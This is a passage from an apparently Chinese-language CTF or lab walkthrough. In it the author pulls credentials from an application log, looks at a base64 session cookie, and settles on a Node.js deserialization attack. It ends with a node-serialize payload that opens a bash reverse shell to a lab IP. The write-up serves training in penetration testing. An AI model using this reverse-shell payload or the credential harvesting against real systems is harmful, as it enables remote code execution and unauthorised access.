 ```bash
2025-08-21T12:01:43.550Z [ERROR] UnhandledPromiseRejectionWarning: TypeError: Cannot read property 'id' of undefined
2025-08-21T12:01:43.551Z [INFO] Trace: at /srv/app/routes.js:77:19
2025-08-21T12:01:44.992Z [DEBUG] Cache hit for key: client:ecorp
2025-08-21T12:01:45.011Z [INFO] POST /reports/upload 500 - 132ms - user=parker
2025-08-21T12:01:45.012Z [ERROR] Error: File too large (>5MB)
2025-08-21T12:01:46.200Z [DEBUG] Session destroyed for user=oparker
```

分析/var/log/app.log获得认证信息

```
cisco
dark-ops
DLFJYxLLSzp1x5Ttpsffpg2awuJT5K
```

登录成功，我去中文？！

![image-20251019130950990](http://7r1UMPHK.github.io/image/20251019145636883.webp)

没啥东西，测试了ssti之类的也没啥东西

抓个包看看

```bash
GET / HTTP/1.1
Host: 192.168.205.136:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: sess=eyJ1c2VybmFtZSI6ImNpc2NvIn0%3D
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 20 Aug 2025 13:34:08 GMT
If-None-Match: W/"3ce-198c7afdc80"
Priority: u=0, i
```

Cookie这个jwt也太短了吧

![image-20251019131355893](http://7r1UMPHK.github.io/image/20251019145639751.webp)

啊这，伪造也没啥价值

问了波ai，说可能是 **Node.js反序列化漏洞**

# **9. Node.js反序列化RCE**

```json
{
  "username": "_$$ND_FUNC$$_function(){require('child_process').exec(\"bash -c 'bash -i >& /dev/tcp/192.168.205.128/8888 0>&1'\");}()"
}
```
